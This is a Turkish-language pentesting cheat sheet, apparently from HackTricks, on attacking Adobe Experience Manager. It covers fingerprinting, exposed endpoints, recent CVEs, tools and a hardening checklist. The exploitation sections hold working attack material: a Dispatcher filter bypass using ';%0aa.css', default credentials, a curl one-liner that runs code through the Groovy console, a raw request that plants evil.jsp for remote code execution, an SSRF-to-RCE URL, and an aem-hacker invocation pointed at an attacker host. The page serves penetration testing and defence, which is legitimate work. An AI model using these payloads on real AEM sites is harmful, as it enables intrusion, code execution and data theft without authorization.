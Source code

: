# AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, Adobe Experience Cloud'ın bir parçası) Apache Sling/Felix (OSGi) ve bir Java İçerik Deposu (JCR) üzerinde çalışan bir kurumsal CMS'dir.
> Bir saldırgan perspektifinden AEM örnekleri genellikle tehlikeli geliştirme uç noktalarını, zayıf Dispatcher kurallarını, varsayılan kimlik bilgilerini ve her çeyrekte yamanan uzun bir CVE listesini açığa çıkarır.

Aşağıdaki kontrol listesi, gerçek etkileşimlerde (2022-2025) sürekli olarak ortaya çıkan **dışarıdan erişilebilir (kimlik doğrulamasız) saldırı yüzeyine** odaklanmaktadır.

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
Diğer hızlı göstergeler:
* `/etc.clientlibs/` statik yolu mevcut (JS/CSS döner).
* `/libs/granite/core/content/login.html` “Adobe Experience Manager” afişi ile giriş sayfası.
* `</script><!--/* CQ */-->` HTML'nin altında yorum.

---

## 2. Yüksek değerli kimlik doğrulamasız uç noktalar

Path | Ne elde edersiniz | Notlar
---- | ------------- | -----
`/.json`, `/.1.json` | JCR düğümleri aracılığıyla **DefaultGetServlet** | Genellikle engellenir, ancak *Dispatcher bypass* (aşağıya bakın) çalışır.
`/bin/querybuilder.json?path=/` | QueryBuilder API | Sayfa ağacı, iç yollar, kullanıcı adları sızıntısı.
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felix konsolu | Varsayılan olarak 403; eğer açığa çıkmışsa ve kimlik bilgileri bulunursa ⇒ bundle-upload RCE.
`/crx/packmgr/index.jsp` | Paket Yöneticisi | Kimlik doğrulaması yapılmış içerik paketlerine izin verir → JSP yükleme.
`/etc/groovyconsole/**` | AEM Groovy Konsolu | Eğer açığa çıkmışsa → keyfi Groovy / Java yürütme.
`/libs/cq/AuditlogSearchServlet.json` | Denetim günlükleri | Bilgi ifşası.
`/libs/cq/ui/content/dumplibs.html` | ClientLibs dökümü | XSS vektörü.

### Dispatcher bypass hilesi
Çoğu üretim sitesi *Dispatcher* (ters proxy) arkasında yer alır. Filtre kuralları, izin verilen bir statik uzantıyı **bir noktalı virgülden veya kodlanmış yeni satırdan sonra ekleyerek** atlatılabilir:
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
Tek bir istek yukarıda sıklıkla kullanıcı profil düğümlerini e-posta adresleriyle açığa çıkarır. P-T Partners bu zayıflık hakkında iyi bir rehber yayınladı. 【】

---

## 3. Yaygın yanlış yapılandırmalar (2025'te hala mevcut)

1. **Anonim POST servlet** – `POST /.json` ile `:operation=import` yeni JCR düğümleri oluşturmanıza izin verir. Dispatcher'da `*.json` POST'u engellemek bunu düzeltir. 【】
2. **Herkese açık kullanıcı profilleri** – varsayılan ACL, `/home/users/**/profile/*` üzerinde `jcr:read` iznini herkese verir.
3. **Varsayılan kimlik bilgileri** – `admin:admin`, `author:author`, `replication:replication`.
4. **WCMDebugFilter** etkin ⇒ `?debug=layout` üzerinden yansıtılan XSS (CVE-2016-7882, hala eski 6.4 kurulumlarında bulunuyor).
5. **Groovy Konsolu açığa çıktı** – bir Groovy betiği göndererek uzaktan kod yürütme:
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. Son zamanlardaki güvenlik açıkları (hizmet paketi döngüsü)

Çeyrek | CVE | Etkilenen | Etki
------- | --- | -------- | ------
Aralık 2024 | **CVE-2024-43711** | 6.5.21 ve öncesi | Yanlış giriş doğrulaması → **Rastgele kod yürütme** (düşük ayrıcalıklı kimlik doğrulama gerektirir). 【】
Aralık 2024 | CVE-2024-43724/26 | 6.5.21 ve öncesi | DOM / Saklanan XSS Move Page Wizard'da. 【】
Aralık 2023 | CVE-2023-48452/68 | ≤ 6.5.18 | Özel URL aracılığıyla DOM tabanlı XSS. 【】
Aralık 2022 | CVE-2022-30683 | ≤ 6.5.13 | Kripto tasarım hatası → gizli şifre çözme (düşük ayrıcalıklı kimlik bilgileri gerektirir). 【】

Her zaman müşterinin hizmet paketiyle eşleşen *APSB* bültenini kontrol edin ve en son **6.5.22** veya *Cloud Service 2024.11* talep edin.

---

## 5. Sömürü parçaları

### 5.1 Dispatcher atlatma + JSP yükleme ile RCE
Eğer anonim yazma mümkünse:
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Şimdi `/content/evil.jsp` isteği yapın – JSP, AEM işlem kullanıcısı ile çalışır.

### 5.2 SSRF'den RCE'ye (tarihi < 6.3)
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
**aem-hacker**'dan `aem_ssrf2rce.py` tam zinciri otomatikleştirir. 【】

---

## 6. Araçlar

* **aem-hacker** – İsviçre çakısı benzeri sayım scripti, dispatcher atlatma, SSRF tespiti, varsayılan kimlik bilgileri kontrolleri ve daha fazlasını destekler.
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **İçerik Brute-force** – gizli bileşenleri keşfetmek için `/_jcr_content.(json|html)` isteğini yinelemeli olarak yapın.
* **osgi-infect** – kimlik bilgileri mevcutsa `/system/console/bundles` üzerinden kötü niyetli OSGi paketi yükleyin.

---

## 7. Güçlendirme kontrol listesi (raporunuzun önerileri için)

1. Örneği **en son toplu hizmet paketinde** tutun (Temmuz 2025 itibarıyla: 6.5.22).
2. Varsayılan hesapları kaldırın/değiştirin; SSO/SAML'yi zorlayın.
3. **Dispatcher filtrelerini** sıkılaştırın – anonim kullanıcılar için `;`, kodlanmış yeni satırlar ve `*.json` veya `*.querybuilder.json`'ı reddedin.
4. Konsolları (`/system/console`, `/crx/*`, `/etc/groovyconsole`) IP izin listeleri ile devre dışı bırakın veya koruyun.
5. Adobe tarafından gönderilen *Anonim İzin Güçlendirme* paketini uygulayın.

## Referanslar

* Adobe Güvenlik Bülteni APSB24-69 – “Adobe Experience Manager için güvenlik güncellemeleri (Aralık 2024)”.
* 0ang3el – aem-hacker aracı (GitHub).
{{#include ../../banners/hacktricks-training.md}}
